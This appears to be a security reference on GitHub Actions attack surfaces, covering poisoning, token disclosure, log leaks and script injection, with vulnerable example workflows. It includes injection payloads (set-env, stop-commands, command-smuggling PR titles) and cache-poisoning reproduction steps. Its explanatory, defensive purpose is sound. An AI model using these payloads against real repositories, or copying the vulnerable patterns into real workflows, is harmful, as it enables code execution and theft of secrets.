


# Allowed unsecure commands

There are deprecated `set-env` and `add-path` workflow commands that can be explicitly enabled by setting the `ACTIONS_ALLOW_UNSECURE_COMMANDS` environment variable to `true`.

- `set-env` sets environment variables via the following workflow command `::set-env name=<NAME>::<VALUE>`
- `add-path` updates the `PATH` environment variable via the following workflow command `::add-path::<VALUE>`

Depending on the use of the environment variable, this could allow an attacker, in the worst case, to change the path and run a command other than the intended one, leading to arbitrary command execution. For example, consider the following workflow:

```yaml
name: Vulnerable workflow

on:
  pull_request_target

env:
  # 1. Enable unsecure commands
  ACTIONS_ALLOW_UNSECURE_COMMANDS: true
  ENVIRONMENT_NAME: prod

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      # 2. Print github context
      - run: |
          print("""${{ toJSON(github) }}""")
        shell: python
      - name: Create new PR deployment
        uses: actions/github-script@v5
        with:
          # 3. Create deployment
          script: |
            return await github.rest.repos.createDeployment({
                ...context.repo,
                ref: context.payload.pull_request.head.sha,
                auto_merge: false,
                required_contexts: [],
                environment: "${{ env.ENVIRONMENT_NAME }}",
                transient_environment: false,
                production_environment: false,
            });
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

The above workflow enables unsecure commands by setting `ACTIONS_ALLOW_UNSECURE_COMMANDS` to `true` in the `env` section. As can be seen, the first step of the `deploy` job prints the `github` context to the workflow log. Since part of the variables in the `github` context is user-controlled, it is possible to abuse unsecure commands to set arbitrary environment variables. For instance, an attacker could use the pull request description to deliver the following payload, which will reset the `ENVIRONMENT_NAME` when the `github` context is printed:

```
\n::set-env name=ENVIRONMENT_NAME::", <YOUR_JS_CODE>//\n
```

GitHub Runner will process this line as a workflow command and save a malicious payload to `ENVIRONMENT_NAME`. As a result, injecting the `ENVIRONMENT_NAME` variable within the `actions/github-script` step will lead to code injection.

References:

- [GHSA-mfwh-5m23-j46w: `add-path` and `set-env` Runner commands are processed via stdout](https://github.com/actions/toolkit/security/advisories/GHSA-mfwh-5m23-j46w)

# Artifact poisoning

There are many different cases where workflows use artifacts created by other workflows, for example, to get test results, a compiled binary, metrics, changes made, a pull request number, etc. This opens up another source for payload delivery. As a result, if an attacker can control the content of the downloaded artifacts and that content is not properly validated, it may lead to the execution of arbitrary commands. For example, consider the following workflows:

```yaml
# .github/workflows/pr.yml
name: Pull request

on:
  pull_request:

jobs:
  build:
    steps:
      - name: Checkout
        uses: actions/checkout@v3
      # 1. Build a binary
      - name: Build
        run: make
      # 2. Upload the binary to the artifacts
      - name: Upload the compiled binary
        uses: actions/upload-artifact@v3
        with:
          name: my_bin
          path: ./my_bin
```

```yaml
# .github/workflows/run.yml
name: Run

on:
  workflow_dispatch:

jobs:
  run:
    steps:
      # 1. Download a binary from the artefacts of the pr.yml workflow
      - name: Download binary
        uses: dawidd6/action-download-artifact@v2
        with:
          workflow: pr.yml
          name: my_bin
      # 2. Run the binary
      - name: Run
        run: ./my_bin
```

As can be seen, the first workflow uses the `pull_request` event to build a binary from an incoming pull request and upload the compiled binary to the artifacts. Since the workflow uses `pull_request` it can be triggered by a third-party user from a fork. Therefore, it is possible to upload a malicious binary to the artifacts. The second workflow uses the `workflow_dispatch`, downloads the binary from the `pr.yml` workflow and runs the binary. Even though the `run.yml` workflow is triggered manually, an attacker could execute arbitrary commands if they poisoned the artifacts just before triggering `run.yml`. In this case, the attack flow can look like this:

1. An attacker forks the repository and makes malicious changes.
1. An opens a pull request to the base repository.
1. The `pr.yml` workflow checks out the code from the pull request, builds it and uploads the malicious binary to the artifacts.
1. A maintainer triggers the `run.yml` workflow.
1. The workflow downloads the malicious binary and runs it.

Remember that the `pull_request` event may require approval from maintainers for pull requests from forks. By default, `pull_request` [requires approval only for first-time contributors](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository#controlling-changes-from-forks-to-workflows-in-public-repositories).

References:

- [Legit Security Blog: Novel Pipeline Vulnerability Discovered; Rust  Found Vulnerable](https://www.legitsecurity.com/blog/artifact-poisoning-vulnerability-discovered-in-rust)

## How to detect downloading artifacts?

There are several ways to download artifacts from another workflow. The most common ones can be found below:

1. Using the `github.rest.actions.listWorkflowRunArtifacts()` method within the `actions/github-script` action:

    ```yaml
    - uses: actions/github-script@v6
      with:
        script: |
          let allArtifacts = await github.rest.actions.listWorkflowRunArtifacts({
              owner: context.repo.owner,
              repo: context.repo.repo,
              run_id: context.payload.workflow_run.id,
          });
          let matchArtifact = allArtifacts.data.artifacts.filter((artifact) => {
              return artifact.name == "<ARTEFACT_NAME>"
          })[0];
          let download = await github.rest.actions.downloadArtifact({
              owner: context.repo.owner,
              repo: context.repo.repo,
              artifact_id: matchArtifact.id,
              archive_format: 'zip',
          });
    ```

1. Using third-party actions, such as [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact):

    ```yaml
    - uses: dawidd6/action-download-artifact@v2
      with:
        name: artifact_name
        workflow: wf.yml
    ```

1. Using the `gh run download` GitHub CLI command:

    ```yaml
    - run: |
        gh run download "${WORKFLOW_RUN_ID}" --repo "${GITHUB_REPOSITORY}" --name "artifact_name"
    ```

1. Using the `gh api` GitHub CLI command with `github.event.workflow_run.artifacts_url`:

    ```yaml
    run: |
      artifacts_url=${{ github.event.workflow_run.artifacts_url }}
      gh api "$artifacts_url" -q '.artifacts[] | [.name, .archive_download_url] | @tsv' | while read artifact
      do
        IFS=$'\t' read name url <<< "$artifact"
        gh api $url > "$name.zip"
        unzip -d "$name" "$name.zip"
      done
    ```

# Cache poisoning

Any cache in Github Actions [shares the same scope as the base branch](https://docs.github.com/en/actions/using-workflows/caching-dependencies-to-speed-up-workflows#restrictions-for-accessing-a-cache). Therefore, if the cached content can be altered within the scope of the base branch, it is possible to poison the cache for all branches of the repository.

As a result, whatever is cached from an incoming pull request will be available in all workflows. You can reproduce this behaviour using the steps below.

Poisoning:

1. Create a workflow in a base repository with the next content:

    ```yml
    name: PR Workflow

    on: pull_request_target

    jobs:
      poison:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v3
            with:
              ref: ${{ github.event.pull_request.head.ref }}
          - uses: actions/cache@v2
            with:
              path: ~/poison
              key: poison_key
          - run: |
              cat poison
    ```

1. Fork the repository and add `poison` file with arbitrary content.
1. Create a pull request to the base repository and wait for the workflow to complete.

Exploitation:

1. Create a new branch in the base repository and change any file.
1. Create a pull request to the base branch.
1. The workflow will retrieve the `poison` file from the step 2 of the `Poisoning` section above.

## Cache and deployment environments

GitHub Actions does not separate different [deployment environments](https://docs.github.com/en/actions/deployment/targeting-different-environments/using-environments-for-deployment) during caching. Suppose there are environments `development` and `production`, where `production` can only be run with approval. In this case, only certain people can run a workflow in the `production` environment, while everyone else uses the `development` environment. However, running these environments on the same branch can lead to cache poisoning in the `production` environment, because there is a logical boundary only between branches. In other words, an attacker (under certain circumstances) or any developer with write permissions can poison the cache of the base branch and get arbitrary code execution in the `production` environments. Therefore, an attacker or a developer can at least gain access to secrets from the `production` environment.

# GitHub Runner registration token disclosure

GitHub Actions supports self-hosted runners that users can deploy to run jobs. The deployment process includes registering a self-hosted runner on the GitHub Service. [The self-hosted runner registration process](https://docs.github.com/en/actions/hosting-your-own-runners/adding-self-hosted-runners) is the exchange of a GitHub Runner registration token for a temporary JWT token and the subsequent generation of an RSA key that will be used by a self-hosted runner in the future to issue JWT tokens. Therefore, the GitHub Service allows self-hosted runners to be registered based on the GitHub Runner registration token and subsequently identifies the self-hosted runner by its public key.

The GitHub Runner registration token is a short-term token that has a 1 hour expiration time and it looks like this:

```
AUUYBYBGG5FM52VMJQPIF5DCNFBZA
```

In the case of a GitHub Runner registration token disclosure, an attacker can register a malicious runner, take over jobs, and gain full access to secrets and code.

You can use the next request to check a registration token:

```http
POST /actions/runner-registration HTTP/1.1
Host: api.github.com
Authorization: RemoteAuth <GITHUB_RUNNER_REGISTRATION_TOKEN>
User-Agent: GitHubActionsRunner
Content-Type: application/json; charset=utf-8

{
  "url": "https://github.com/<NAMESPACE>/<PROJECT>",
  "runner_event": "register"
}
```

For further exploitation follow the "[Adding self-hosted runners](https://docs.github.com/en/actions/hosting-your-own-runners/adding-self-hosted-runners)" guide to add a malicious runner.

# Disclosure of sensitive data

GitHub Actions write all details about a run to workflow logs, which include all running commands and their outputs. Logs of the public projects are available for everyone, and in sensitive data gets into the logs, everyone can access this data. The same applies to [byproducts of workflow execution](https://docs.github.com/en/actions/advanced-guides).

References:
- [GitHub Docs: Security hardening - Using secrets](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-secrets)

## Printing sensitive output to workflow logs

The following example prints sensitive data received from the `/user` endpoint:

```yaml
- run: |
    curl --fail -H 'Authorization: Bearer ${{ secrets.GH_TOKEN }}' https://api.github.com/user || exit 1
```

## Running commands in the verbose or debug mode

The following example leaks the `Auth-Token` header due to the curl verbose `-v` key:

```yaml
- run: |
    curl -v -H "Auth-Token: $AUTH_TOKEN" https://api.website.com/
```

## Misuse of sensitive data in workflows

New sensitive data may appear during the execution of workflows, for example, received from a third-party service or vault. GitHub Actions provides the [add-mask](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#masking-a-value-in-log) workflow command to mask such data in the workflow logs. If the `add-mask` is not used or [workflow commands have been stopped](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands) sensitive data can leak into the workflow logs.

The following example does not mark `TOKEN` as sensitive using `add-mask` and `curl` will expose the `TOKEN` to the logs:

```yaml
- run: |
    TOKEN=$(./issue_new_token)
    curl -i -H "PRIVATE-TOKEN: $TOKEN" https://api.website.com
```

Remember that if you can control the variables that are printed in the workflow logs and there is a step that uses `add-mask` to mask new sensitive data, you can disable `add-mask` by injecting the [stop-commands](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands) command into the workflow log.

In the snippet below, an attacker could use the pull request description to deliver a payload and stop workflow command processing, which will cause the token to be exposed despite the `add-mask` being used.

```yaml
- run: |
    print("""${{ toJSON(github) }}""")
  shell: python
- run: |
    TOKEN=$(./issue_new_token)
    echo "::add-mask::${TOKEN}"
    curl -i -H "PRIVATE-TOKEN: $TOKEN" https://api.website.com
```

The payload may look like this:

```
\n::stop-commands::randomtoken\n
```

## Misuse of secrets in reusable workflows

When a job is used to call a reusable workflow, `jobs.<job_id>.secrets` can be used to provide a map of secrets that are passed to the called workflow. Under certain circumstances, the misuse of secrets can lead to the disclosure of sensitive data.

Consider the following workflows:

```yaml
# dispatch.yml

name: Dispatch

on:
  workflow_dispatch:

jobs:
  reusable:
    uses: ./.github/workflows/reusable.yml
    secrets:
      creds: |
        AWS_ACCESS_KEY_ID=${{ secrets.AWS_ACCESS_KEY_ID }}
        AWS_SECRET_ACCESS_KEY=${{ secrets.AWS_SECRET_ACCESS_KEY }}
```

```yaml
# reusable.yml

name: Reusable

on:
  workflow_call:
    secrets:
      creds:
        description: Arguments

jobs:
  reusable:
    runs-on: ubuntu-latest
    steps:
      - name: Parse creds
        run: |
          import os
          creds = os.environ['CREDS']
          creds = creds.split('\n')
          print(f'ID: {creds[0].split("=")[-1]}')
          print(f'KEY: {creds[1].split("=")[-1]}')
        env:
          CREDS: ${{ secrets.creds }}
        shell: python
```

The `dispatch.yml` workflow invokes the `reusable.yml` reusable workflow and passes `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` using the `creds` secrets. The `reusable.yml` workflow parses the `creds` secrets and extracts the `AWS_SECRET_ACCESS_KEY` and `AWS_SECRET_ACCESS_KEY`. Even though `${{ secrets.creds }}` is masked in the logs, and `AWS_SECRET_ACCESS_KEY` and `AWS_SECRET_ACCESS_KEY` are stored in encrypted secrets, `reusable.yml` will reveal the ID and key in plain text.

It happens because [by default reusable workflows do not have access to the encrypted secrets](https://docs.github.com/en/enterprise-cloud@latest/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idsecretsinherit) and secrets must be defined via the `jobs.<job_id>.secrets`. As a result, if some sensitive data is extracted from the passed secrets, as in the example above, it can lead to their leakage into the workflow log.

Below you can find one of the in-wild examples where the `docker/build-push-action` parses the npm credentials from the `build_args` and leaks them into the logs:

```yaml
name: build

on:
  push:
    branches:
      - main

jobs:
  build:
    uses: ./.github/workflows/build-docker.yaml
    secrets:
      build_args: |
        NPM_EMAIL=${{ secrets.NPM_EMAIL }}
        NPM_AUTH=${{ secrets.NPM_AUTH }}
```

```yaml
# build-docker.yaml
name: build-docker

on:
  workflow_call:
    secrets:
      build_args:
        required: false

jobs:
  main:
    runs-on: ubuntu-latest
    steps:
      # ...
      - uses: docker/build-push-action@v3
        with:
          build-args: ${{ secrets.build_args }}
          # ...
```

## Misuse of secrets in manual workflows

If the `workflow_dispacth` workflow receives secrets in the `inputs` context and does not mask them, with a high degree of probability the secrets will leak into the workflow log.

For example, the following workflow gets a token from the `inputs` context and reveals that token in the workflow log, passing the token to environment variables:

```yaml
name: Release

on:
  workflow_dispatch:
    inputs:
      token:
        description: 'API Token'
        required: true

jobs:
  release:
    runs-on: ubuntu-latest
    steps:
      - run: ./release.sh
        env:
          API_TOKEN: ${{ inputs.token }}
```

## Output parameters and debug mode

All [output parameters](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#setting-an-output-parameter) not marked as sensitive will be logged if the [debug mode](https://docs.github.com/en/actions/monitoring-and-troubleshooting-workflows/enabling-debug-logging) is enabled.

The following example will leak the tokens into the workflow logs if the `debug` mode is enabled:

```yaml
- run: |
    # set output using deprecated set-output command
    echo "::set-output name=token::$(./get_token)"
    # set output using $GITHUB_OUTPUT file
    echo "token=$(./get_token)" >> $GITHUB_OUTPUT
```

The workflow log discloses the token in plaintext:

```
::set-output name=token::cG1jTXaVaAT2K1Qur6G2dryZ6WfuCZcuGck3VU
Warning: The `set-output` command is deprecated and will be disabled soon. Please upgrade to using Environment Files. For more information see: https://github.blog/changelog/2022-10-11-github-actions-deprecating-save-state-and-set-output-commands/
##[debug]='cG1jTXaVaAT2K1Qur6G2dryZ6WfuCZcuGck3VU'
##[debug]Set output token = uFlZdXxx5d2jXbTitxpq1FY8WsZTWtadcuFlZd
```

## Workflow artifacts

[Artifacts](https://docs.github.com/en/actions/advanced-guides/storing-workflow-data-as-artifacts) in the public repositories are available to everyone for a retention period (90 days by default). Therefore, if sensitive data is leaked into artifacts, an attacker can [download](https://docs.github.com/en/actions/managing-workflow-runs/downloading-workflow-artifacts) them and the sensitive data inside.

## Workflow cache

Unlike artifacts, the [cache](https://docs.github.com/en/actions/advanced-guides/caching-dependencies-to-speed-up-workflows) is only available while a workflow is running. However, anyone with read access can create a pull request on a repository and access the contents of the cache. Forks can also create pull requests on the base branch and access caches on the base branch.

# Contexts misusing

GitHub Actions workflows can be triggered by a variety of [events](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows). Every workflow trigger is provided with [contexts](https://docs.github.com/en/actions/learn-github-actions/contexts). One of the contexts is the [GitHub context](https://docs.github.com/en/actions/learn-github-actions/contexts#github-context) that contains information about the workflow run and the event that triggered the run.


Context information can be accessed using one of two [syntaxes](https://docs.github.com/en/actions/learn-github-actions/contexts#about-contexts):
- Index syntax `github['sha']`
- Property dereference syntax `github.sha`


The list below contains user-controlled GitHub context variables for various events.

```yaml
# pull_request_target
github.head_ref
github.event.pull_request.body
github.event.pull_request.head.label
github.event.pull_request.head.ref
github.event.pull_request.head.repo.default_branch
github.event.pull_request.head.repo.description
github.event.pull_request.head.repo.homepage
github.event.pull_request.title
# issues
github.event.issue.body
github.event.issue.title
# issue_comment
github.event.comment.body
github.event.issue.body
github.event.issue.title
# discussion
github.event.discussion.body
github.event.discussion.title
# discussion_comment
github.event.comment.body
github.event.discussion.body
github.event.discussion.title
# workflow_run
github.event.workflow.path
github.event.workflow_run.head_branch
github.event.workflow_run.head_commit.author.email
github.event.workflow_run.head_commit.author.name
github.event.workflow_run.head_commit.message
github.event.workflow_run.head_repository.description
```

GitHub Actions support their own [expression syntax](https://docs.github.com/en/actions/learn-github-actions/expressions) that allows access to the context values.

```yaml
- name: Check title
  run: |
    title="${{ github.event.issue.title }}"
    if [[ ! $title =~ ^.*:\ .*$ ]]; then
      echo "Bad issue title"
      exit 1
    fi
```

The [run:](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsrun) block in the example above creates a bash script based on the content inside the block to execute the script during the `Check title` step execution. The content of the `run:` block is interpreted as a template and expressions inside `${{ }}` are evaluated and replaced with the resulting values before the bash script is run. Therefore, if an attacker can control a context variable that is used inside `${{ }}`, they will be able to inject arbitrary commands into the bash script. In the case above, an attacker can use the payloads like `a"; echo test` or `` `echo test` `` to execute malicious commands.

Another context that can contain user-controlled data is the [env context](https://docs.github.com/en/actions/learn-github-actions/contexts#env-context). The `env` context contains environment variables that have been set in a workflow, job, or step. Using variable interpolation `${{ }}` with the `env` context data in a `run:` could allow an attacker to inject malicious commands. In the snippet below, an attacker can create an issue with a payload in the issue title.

```yaml
on:
  issues:

env:
  TITLE: "${{ github.event.issue.title }}"

jobs:
  check-title:
    runs-on: ubuntu-latest
    steps:
      - name: Check title
        run: |
          title="${{ env.TITLE }}"
          if [[ ! $title =~ ^.*:\ .*$ ]]; then
            echo "Bad issue title"
            exit 1
          fi
```

Additionally, it is possible to control values of the `outputs` property that is provided by [steps](https://docs.github.com/en/actions/learn-github-actions/contexts#steps-context) and [needs](https://docs.github.com/en/actions/learn-github-actions/contexts#needs-context) contexts:
- [steps.<step_id>.outputs](https://docs.github.com/en/actions/learn-github-actions/contexts#steps-context)
- [needs.<job_id>.outputs](https://docs.github.com/en/actions/learn-github-actions/contexts#needs-context)

The `outputs` property contains the result/output of a specific job or step. `outputs` may accept user-controlled data which can be passed to the `run:` block. In the following example, an attacker can execute arbitrary commands by creating a pull request named `` `;arbitrary_command_here();// `` because `steps.fetch-branch-names.outputs.prs-string` contains a pull request title:

```yml
jobs:
  combine-prs:
    runs-on: ubuntu-latest
    steps:
      # action uses PR's title to craft prs-string output
      - uses: actions/github-script@v6
        id: fetch-branch-names
        name: Fetch branch names
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            const pulls = await github.paginate('GET /repos/:owner/:repo/pulls', {
              owner: context.repo.owner,
              repo: context.repo.repo
            });
            branches = [];
            prs = [];
            base_branch = null;
            for (const pull of pulls) {
                // ...
                if (statusOK) {
                  console.log('Adding branch to array: ' + branch);
                  branches.push(branch);
                  prs.push('Closes #' + pull['number'] + ' ' + pull['title']);
                  base_branch = pull['base']['ref'];
                }
              }
            }
            // ...
            core.setOutput('prs-string', prs.join('\n'));
            // ...
      # action uses crafted prs-string within the ${{ }} expression
      - uses: actions/github-script@v6
        name: Create Combined Pull Request
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            const prString = `${{ steps.fetch-branch-names.outputs.prs-string }}`;
            // ...
```

The same applies to [data that is sent to the pre and post actions](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#sending-values-to-the-pre-and-post-actions).

References:
- [GitHub Security Lab: Keeping your GitHub Actions and workflows secure Part 2: Untrusted input](https://securitylab.github.com/research/github-actions-untrusted-input/)
- [GitHub Docs: Security hardening - Understanding the risk of script injections](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#understanding-the-risk-of-script-injections)
- [GitHub Security Lab: Hack this repository: The EkoParty 2020 GitHub CTF challenges](https://securitylab.github.com/research/ekoparty-ctf/)
- [Writeup: Potential remote code execution in PyPI](https://blog.ryotak.me/post/pypi-potential-remote-code-execution-en/)

## Potentially dangerous third-party actions

Remember that injecting user-controlled data into variables of third-party actions can lead to vulnerabilities such as commands or code injection. Below you can find a list of the most common actions which, if misused, can lead to vulnerabilities.

| Github action | Description | Potential vulnerability |
| --- | --- | --- |
| [actions/github-script](https://github.com/actions/github-script) | Write workflows scripting the GitHub API in JavaScript | Using variable interpolation `${{ }}` with `script:` can lead to JavaScript code injection |
| [octokit/graphql-action](https://github.com/octokit/graphql-action) | A GitHub Action to send queries to GitHub's GraphQL API | Using variable interpolation `${{ }}` with `query:` can lead to injection to a GraphQL request |
| [octokit/request-action](https://github.com/octokit/request-action) | A GitHub Action to send arbitrary requests to GitHub's REST API | Using variable interpolation `${{ }}` with `route:` can lead to injection to a request to REST API |

# Misconfiguration of OpenID Connect

With OpenID Connect, a GitHub Actions workflow requires a token to access resources in a cloud provider. The workflow requests an access token from a cloud provider, which checks the details presented by the JWT. If the trust configuration in the JWT is a match, a cloud provider responds by issuing a temporary token to the workflow, which can then be used to access resources in a cloud provider.

When developers configure a cloud to trust GitHub's OIDC provider, they must add conditions that filter incoming requests, so that untrusted repositories or workflows can't request access tokens for cloud resources. `Audience` and `Subject` claims are typically used in combination while setting conditions on the cloud role/resources to scope its access to the GitHub workflows.

- `Audience`: By default, this value uses the URL of the organization or repository owner. This can be used to set a condition that only the workflows in the specific organization can access the cloud role.
- `Subject`: Has a predefined format and is a concatenation of some of the key metadata about the workflow, such as the GitHub organization, repository, branch or associated job environment. There are also many additional claims supported in the OIDC token that can also be used for setting these conditions.

However, if a cloud provider is misconfigured, untrusted repositories can request access tokens for cloud resources.

References:
- [GitHub Docs: About security hardening with OpenID Connect](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Identifying vulnerabilities in GitHub Actions & AWS OIDC Configurations](https://medium.com/tinder/identifying-vulnerabilities-in-github-actions-aws-oidc-configurations-8067c400d5b8)
- [From GitHub To Account Takeover: Misconfigured Actions Place GCP & AWS Accounts At Risk](https://www.rezonate.io/blog/github-misconfigurations-put-gcp-aws-in-account-takeover-risk/)

# Misuse of the events related to incoming pull requests

GitHub workflows can be triggered by events related to incoming pull requests. The table below contains all the events that can be used to handle incoming pull requests:

| Event | REF | Possible `GITHUB_TOKEN` permissions | Access to secrets |
| --- | --- | --- | --- |
| [pull_request](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request) (external forks) | PR merge branch | read | no |
| [pull_request](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request) (branches in the same repo) | PR merge branch | write | yes |
| [pull_request_target](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request_target) | PR base branch | write | yes |
| [issue_comment](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#issue_comment) | Default branch | write | yes |
| [workflow_run](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow_run) | Default branch | write | yes |

- [pull_request](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request) and [pull_request_target](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request_target) triggered a workflow when activity on a pull request in the workflow's repository occurs. The main differences between the two events are:

  1. Workflows triggered via `pull_request_target` have write permissions to the target repository and have access to target repository secrets. The same is true for workflows triggered on `pull_request` from a branch in the same repository, but not from external forks. The reasoning behind the latter is that it is safe to share the repository secrets if the user has write permissions to the target repository already.
  2. `pull_request_target` runs in the context of the target repository of the pull request, rather than in the merge commit. This means the standard checkout action uses the target repository to prevent accidental usage of a user-supplied code.

- [issue_comment](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#issue_comment) runs a workflow when a pull request comment is created, edited, or deleted.
- [workflow_run](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow_run) runs a workflow when a workflow run is requested or completed. It allows the execution of a workflow based on the execution or completion of another workflow.

Normally, using `pull_request_target`, `issue_comment` or `workflow_run` is safe because actions only run code from a target repository, not an incoming pull request. However, if a workflow uses these events with an explicit checkout of a pull request, it can lead to untrusted commands or code execution.

```yaml
on:
  pull_request_target

jobs:
  build:
    name: Build and test
    runs-on: ubuntu-latest
    steps:
        # 1. Check out the content from an incoming pull request
        - uses: actions/checkout@v3
          with:
            ref: ${{ github.event.pull_request.head.sha }}
        - uses: actions/setup-node@v1
        # 2. Potentially untrusted commands are being run during "npm install" or "npm build" as
        #    the build scripts and referenced packages are controlled by the author of the pull request
        - run: |
            npm install
            npm build
```

There are several ways to check out a code from a pull request:

- Using the [actions/checkout](https://github.com/actions/checkout) action to checkout changes from a head repository.

    ```yaml
    - uses: actions/checkout@v3
      with:
        ref: refs/pull/${{ github.event.pull_request.number }}/merge
    ```

- Explicitly checking out using `git` in the `run:` block.

    ```yaml
    run: |
      git fetch origin $HEAD_BRANCH
      git checkout origin/master
      git config user.name "release-hash-check"
      git config user.email "<>"
      git merge --no-commit --no-edit origin/$HEAD_BRANCH
    env:
      HEAD_BRANCH: ${{ github.head_ref }}
    ```

- Use GitHub API or third-party actions:

    ```yaml
    - uses: octokit/request-action@v2.1.4
      with:
        route: GET /repos/{owner}/{repo}/pulls/{number}
        owner: namespace
        repo: reponame
        number: ${{ github.event.issue.number }}
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    ```

The following context variables may help to find cases where an incoming pull request is checked out:

```yaml
github.head_ref
github.event.number
github.event.pull_request.head.ref
github.event.pull_request.head.repo.default_branch
github.event.pull_request.head.repo.id
github.event.pull_request.head.sha
github.event.pull_request.merge_commit_sha
github.event.pull_request.number
github.event.pull_request.id
github.event.workflow_run.head_branch
github.event.workflow_run.head_repository.id
github.event.workflow_run.head_sha
# id is a commit sha
github.event.workflow_run.head_commit.id
# environment variable
env.GITHUB_HEAD_REF
```

References:
- [GitHub Security Lab: Keeping your GitHub Actions and workflows secure Part 1: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)
- [GHSL-2021-1032: Unauthorized repository modification or secrets exfiltration from a Pull Request in Solana GitHub workflow](https://securitylab.github.com/advisories/GHSL-2021-1032_Solana/)
- [Writeup: GitHub Actions check-spelling community workflow - GITHUB_TOKEN leakage via advice.txt symlink](https://github.com/justinsteven/advisories/blob/master/2021_github_actions_checkspelling_token_leak_via_advice_symlink.md)

## Confusion between head.ref and head.sha

Sometimes developers implement workflows in such a way that they require manual review before execution. It is guaranteed that untrusted content will be reviewed by a maintainer before execution. Consider the following workflow:

```yaml
name: Handle pull requests

on:
  pull_request_target:
    types:
      - labeled

jobs:
  build:
    name: Build and test
    runs-on: ubuntu-latest
    if: ${{ github.event.label.name == 'approved' }}
    steps:
      - uses: actions/checkout@v3
        with:
          ref: ${{ github.event.pull_request.head.ref }}
      - uses: actions/setup-node@v1
      - name: Build
        run: |
          npm install
          npm build
```

